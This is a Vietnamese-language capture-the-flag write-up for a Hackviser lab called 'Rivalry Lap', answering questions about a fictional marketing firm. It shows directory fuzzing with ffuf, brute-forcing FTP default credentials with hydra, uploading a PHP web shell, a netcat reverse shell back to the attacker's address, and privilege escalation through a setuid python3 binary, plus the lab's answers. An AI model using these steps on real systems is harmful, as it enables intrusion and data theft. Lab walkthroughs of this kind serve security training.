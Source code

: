 ```yaml
---
title: "Rivalry Lap"
published: 2025-09-19
description: "Bài này khá là hay."
tags: [CAPT, Hackviser]
category: Examples
draft: false
---
```


# **Rivalry Lap**
## How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?
- truy cập trang web tôi thấy được giới thiệu ở gần cuối trang rằng **"CreateEdge's strategies gained us 3500 new customers in just a few months!"**
==> điều đó cho biết được rằng đáp án là **3500**

---
## What is the advertising budget of Orbitronix Systems in dollars?
- Thử dùng công cụ ffuf để quét thư mục , tôi phát hiện được 1 thư mục có tên **ftp**
```
 ffuf -ic-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.php'-u http://createdge.hv/FUZZ/ -t 40

     /'___\  /'___\           
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\ \ \_\ \ \____/  \ \_\          
      \/_/  \/_/  \/_/___/   \/_/          
v2.1.0-dev
 ________________________________________________
:: Method           : GET        
:: URL              : http://createdge.hv/FUZZ/       
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list     
2.3-medium.txt
:: Extensions       : .php 
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10   
:: Threads          : 40   
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 ________________________________________________
 .php                     [Status: 200, Size: 10752, Words: 3217, Lines: 272, Duration: 188ms]
 icons                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 183ms]
 assets                   [Status: 200, Size: 1501, Words: 100, Lines: 20, Duration: 182ms]
 ftp                      [Status: 200, Size: 935, Words: 62, Lines: 17, Duration: 182ms]

```
- Truy cập vào thư mục ta thấy được 1 file **clients.csv** . Tải nó về và mở ra thì có nội dung là :
```
Company Name,Advertising Budget ($)
Innovatech Ltd,50000
QuantumSoft,75000
BlueHaven Tech,60000
PinnacleByte,45000
SysTech Global,80000
Orbitronix Systems,225000
NexaCore Tech,30000
Zenithar Tech,70000
VortexaTech,55000
NovaSphere Tech,65000

```
==> đáp án là **225000**

---
## Who is the target audience of the Orbitronix Systems advertising campaign?
- Tôi quét mục tiêu bằng công cụ nmap thì phát hiện có bật cổng dịch vụ ftp trên port 21
- Sau đó tôi đã dùng công cụ hydra để quét các cặp tài khoản mật khẩu dễ bị xâm phạm 
```
┌─[✗]─[root@hackerbox]─[~]
└──╼ #hydra -f -V -I -t 4 -s 21 -C /root/Desktop/misc/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.20.22.208 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 08:52:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://172.20.22.208:21/
[ATTEMPT] target 172.20.22.208 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftpuser" - pass "password" - 50 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "USER" - pass "USER" - 51 of 66 [child 3] (0/0)
[21][ftp] host: 172.20.22.208   login: ftpuser   password: password
[STATUS] attack finished for 172.20.22.208 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 08:52:36

```
==> Thấy được công cụ đã quét được tài khoản mật khẩu để đăng nhập dịch vụ ftp là **ftpuser:password**
- Đăng nhập vào dịch vụ ftp 
```
ftp 172.20.22.208
```
- Tôi đã tạo 1 file web shell ở [đây](https://github.com/flozz/p0wny-shell) , sau đó tôi tải nó lên sever web
```
put shell.php
```
- Quoay trở lại shell tôi cấu hình lắng nghe trên cổng 8888
```
nc -lvp 8888
```
- Sau đó tôi truy cập file shell trên trình duyệt và chạy câu lệnh
```
www-data@debian:/# nc -e /bin/bash 172.20.22.91 8888
```
- Khi có được shell , tôi đã chạy python để có được 1 shell chỉnh chu và đẹp mắt hơn
```
python3 -c 'import os; os.system("/bin/bash")'
```
---
- Dùng find để tìm kiếm file thực thi có setuid được bật để tìm kiếm cơ hội leo thang đặc quyền .
```
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/python3.9
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- python3.9 có bật setuid là 1 lỗ hỏng có thể leo thang đặc quyền .
```
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
- Khi đã có root tôi truy cập vào đường dẫn /archive/detailed_client_info.csv
, nội dung của file này là:
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
BlueHaven Tech,60000,Product Launch,Yes,Tech Enthusiasts,4
PinnacleByte,45000,Market Expansion,Yes,Global Market,5
SysTech Global,80000,Online Engagement,No,Online Shoppers,2
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
NexaCore Tech,30000,Brand Awareness,No,Youth,7
Zenithar Tech,70000,Sales Increase,Yes,B2B Clients,1
VortexaTech,55000,Market Expansion,No,Local Market,8
NovaSphere Tech,65000,Product Launch,Yes,Innovators,9
```
==> đáp án cho câu hỏi này là : **Young Adults**
---
## What is the name of the secret marketing tool developed by Create Edge?

- Tiếp tục đọc nội dung của file /archive/meetings/orbitronix_system-2023-11-20.txt thấy được đoạn nội dung này :
```
Meeting Notes: Create Edge - Orbitronix Systems
Date: 2023-11-20
Location: Create Edge Headquarters

Attendees:
- Alex Carter (Create Edge, Marketing Director)
- Sophia Reynolds (Orbitronix Systems, Senior Project Manager)

Agenda:
1. Introduction and objectives of the meeting.
2. Discussion on current market trends and consumer behavior.
3. Overview of Orbitronix Systems' marketing goals.
4. Create Edge's proposed marketing strategies for Orbitronix Systems.
5. Budget considerations and timelines.
6. Q&A and next steps.

Key Points Discussed:
- Orbitronix Systems is seeking to enhance its brand visibility and customer engagement.
- Create Edge presented a comprehensive digital marketing strategy, focusing on social media and content marketing.
- Discussed the importance of SEO and online presence for Orbitronix Systems.
- Budget allocation for the campaign was tentatively agreed upon, subject to approval by Orbitronix Systems' finance department.
- Proposed timeline for the marketing campaign rollout is 12 months, starting from February 2024.

Secret and Highly Important Information:
- Alex Carter revealed that Create Edge has developed a groundbreaking AI-driven marketing analysis tool,which name is InsightNexus AI, which they plan to implement for the first time in the Orbitronix campaign.
- Sophia Reynolds mentioned a potential merger between Orbitronix Systems and another major tech player, which could significantly shift the market dynamics.

Action Items:
- Create Edge to send a detailed proposal to Orbitronix Systems by 2024-01-27.
- Orbitronix Systems to review and provide feedback on the proposal by 2024-02-03.
- Schedule a follow-up meeting to finalize the campaign details.

Meeting concluded at 3:30 PM.
```
==> Qua đoạn hội thoại trên ta thấy được đáp án chính là : **InsightNexus AI**



